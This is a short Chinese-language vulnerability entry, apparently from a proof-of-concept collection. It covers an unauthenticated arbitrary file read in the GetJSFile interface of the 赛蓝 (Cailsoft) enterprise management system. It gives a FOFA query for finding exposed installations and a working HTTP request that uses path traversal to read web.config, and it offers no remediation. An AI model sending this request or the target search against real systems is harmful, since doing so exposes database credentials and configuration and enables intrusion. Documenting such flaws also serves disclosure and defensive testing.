 # 赛蓝企业管理系统GetJSFile存在任意文件读取漏洞

赛蓝企业管理系统 GetJSFile 接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```java
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```java
GET /Utility/GetJSFile?filePath=../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

